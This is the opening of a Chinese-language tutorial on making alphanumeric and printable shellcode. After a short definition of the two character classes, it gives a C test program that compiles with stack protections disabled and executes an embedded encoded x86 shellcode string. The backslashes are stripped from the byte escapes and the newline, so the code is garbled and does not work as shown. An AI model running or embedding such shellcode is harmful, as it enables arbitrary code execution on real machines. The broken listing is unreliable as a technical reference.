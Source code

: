 # 生成自己的Alphanumeric/Printable shellcode

## Alphanumeric与Printable

Alphanumeric是字符在`[A-Za-z0-9]`区间的，而Printable是字符的ascii码在(0x1f,0x7f)区间的。
shellcode测试代码：

```c++
    /*
    * $ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
    */
    #include <stdio.h>
    #include <string.h>
    char shellcode[] = {
    "x89xe0xdbxd6xd9x70xf4x5ax4ax4ax4ax4ax4ax4ax4a"
    "x4ax4ax4ax4ax43x43x43x43x43x43x37x52x59x6ax41"
    "x58x50x30x41x30x41x6bx41x41x51x32x41x42x32x42"
    "x42x30x42x42x41x42x58x50x38x41x42x75x4ax49x50"
    "x6ax66x6bx53x68x4fx69x62x72x73x56x42x48x46x4d"
    "x53x53x4bx39x49x77x51x78x34x6fx44x33x52x48x45"
    "x50x72x48x74x6fx50x62x33x59x72x4ex6cx49x38x63"
    "x70x52x38x68x55x53x67x70x35x50x65x50x74x33x45"
    "x38x35x50x50x57x72x73x6fx79x58x61x5ax6dx6fx70"
    "x41x41"
    };
    int main()
    {
        printf("Shellcode Length:  %dn",(int)strlen(shellcode));
        printf("Shellcode is [%s]n", shellcode);
        int (*ret)() = (int(*)())shellcode;
        ret();
        return 0;
    }
```
